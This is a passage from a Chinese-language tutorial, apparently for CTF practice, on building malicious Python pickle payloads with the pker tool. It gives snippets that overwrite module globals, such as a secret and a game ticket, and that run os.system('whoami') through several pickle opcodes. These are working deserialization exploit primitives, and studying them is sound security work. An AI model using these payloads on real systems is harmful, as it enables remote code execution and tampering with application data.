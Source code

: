 被解析为：

```php
b"S'123'\np0\n0g0\n."
```

### pker：全局变量覆盖

- 覆盖直接由执行文件引入的`secret`模块中的`name`与`category`变量：

```php
secret=GLOBAL('__main__', 'secret') 
# python的执行文件被解析为__main__对象，secret在该对象从属下
secret.name='1'
secret.category='2'
```

- 覆盖引入模块的变量：

```php
game = GLOBAL('guess_game', 'game')
game.curr_ticket = '123'
```

接下来会给出一些具体的基本操作的实例。

#### pker：函数执行

- 通过`b'R'`调用：

```python
s='whoami'
system = GLOBAL('os', 'system')
system(s) # `b'R'`调用
return
```

- 通过`b'i'`调用：

```python
INST('os', 'system', 'whoami')
```

- 通过`b'c'`与`b'o'`调用：

```python
OBJ(GLOBAL('os', 'system'), 'whoami')
```

- 多参数调用函数

```python
INST('[module]', '[callable]'[, par0,par1...])
OBJ(GLOBAL('[module]', '[callable]')[, par0,par1...])
```

#### pker：实例化对象

- 实例化对象是一种特殊的函数执行

```python
animal = INST('__main__', 'Animal','1','2')
return animal
# 或者
animal = OBJ(GLOBAL('__main__', 'Animal'), '1','2')
return animal
```
